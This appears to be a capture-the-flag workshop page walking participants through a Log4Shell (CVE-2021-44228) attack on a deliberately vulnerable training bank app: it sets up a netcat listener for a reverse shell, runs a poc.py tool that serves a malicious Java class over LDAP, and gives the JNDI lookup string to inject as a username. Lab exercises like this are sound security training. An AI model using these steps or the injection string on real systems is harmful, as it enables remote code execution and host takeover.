 ```yaml
---
title: "Hack the Bank! Pt 2: RELEASE THE HOUNDS!"
chapter: false
weight: 10
pre: "<b>3.1 </b>"
---
```


### Background

During the close of 2021 there was a vulnerability released and given the CVE (Common Vulnerability Enumeration) ID CVE-2021-44228.

This new critical vulnerability has been found in log4j, a widely-used open-source utility used to generate logs inside java applications.

You know it's a good one when they give it a logo or a name. This one was called Log4Shell because it permits Remote Code Execution (RCE), allowing attackers to execute arbitrary code on the host. More specifically, it allows an attacker to get a working shell on the host!

The anatomy of it is both simple and complicated at the same time.

It uses a combination of technologies:

- JNDI - The Java Naming and Directory Interface (JNDI) provides an API for java applications, which can be used for binding remote objects , looking up or querying objects

- LDAP - Lightweight directory access protocol (LDAP) is a protocol that makes it possible for applications to query user information remotely and rapidly

- The fact that lookups in Log4j are triggered by special ${....} sequences, like this:

```
console\cloud9: java TryLogger.java "${env.OS}/${env.Version}"
```

### Your Mission
In this instance the "Hounds" are a basic hacking toolkit for our log4shell attack on the Bank.

In your AWS Console go to your Cloud9 command center! (okok, it's just a web IDE, but still!)

You DO NOT need to create a new environment. One has been created for you called "JankyBank-CTF...". Find it under "Shared with me" and click "Open IDE".

We'll need two terminals side by side for our attack. You can dismiss the Welcome tab and click the green '+' to create the first New Terminal.

Let's start a second terminal next to it.

{{% notice info %}}
In the top menu go to View, Layout and click Horizontol Split. In our second panel click on the '+' to start a new terminal. You should now have two terminals side by side.
{{% /notice %}}

![alt_text](images/2terms.png "image_tooltip")
 *Going forward we will refer to the left as Terminal 1 and the right as Terminal 2* 

In your Cloud 9 console you should see a directory called log4sheller.

Execute the following commands and see what's there:

```
cd log4sheller
ls
```

Output:

```
LICENSE  README.md  init.sh  jdk1.8.0_20  netcat.sh  poc.py  requirements.txt  target
```

We will use the tools netcat.sh and poc.py in tandem with Log4janky bank to exploit the details above.

#### Terminal 1:
Prepare to receive an incoming connection which will provide us a reverse shell into the running application host

To do this run the netcat.sh utility using a unique port number found in the "NetCatPort" range located in the Output properties panel. For example:

```
bash netcat.sh NetCatPort
```

The output should run netcat AND explain each of the parameters being used and why. The final line should look like this:

```
Listening on [0.0.0.0] (family 0, port NetCatPort)
```

#### Terminal 2:
Here's what we're going to do.

We worked out in a previous Task that if we log into the Bank with a bad username and password it said it was logging our details. One would assume that it may specifically log the username in order to see if this was a brute force attack.

If we take advantage of what we know above we can craft a loggable username that will trigger our vulnerability. Let's start with putting something in variable brackets that needs to be resolved very much like it does in CloudFormation

Both CloudFormation and Java use a variable format notation like `${resolvable variable}`. We know that if we use JNDI to indicate that we are binding a new java class. That would look like `${jndx:path to my java class}`. Finally, rather than a direct path to a class we provide an LDAP server which Java can also resolve. Our malicious LDAP server will return a simple web server to offer up a malicious new Java class. Clever isn't it!

The final result will actually look like this:
`${jndx:ldxp://yourip:1389/a}`

We're going to need our IP address so the Bank knows where to find us. We will also need to pick a port that is externally available.

Check the Output Properties panel of our setup CloudFormation for the available port ranges we will need. You can choose any unique port between the ranges provided in the output for the command parameters:

- Cloud9IP
- WebPort

Let's run our `poc.py` code using these parameters. The NetCat Port is the same one we used back in Step 1.

```
python3 poc.py --userip <Cloud9IP>  --webport <WebPort>  --lport <NetCatPort>
```

The output will explain each step. It will even generate a new Exploit.class on the fly, start up a webserver to serve it up and will give you the jndi string you require to being our attack.

The last two lines of output will be

```
[+] Starting Webserver on port  http://0.0.0.0:webport
Listening on 0.0.0.0:1389
```

What is the unique generated attack string?

Let's move on to attacking the bank with our prepared Log4Shell exploit...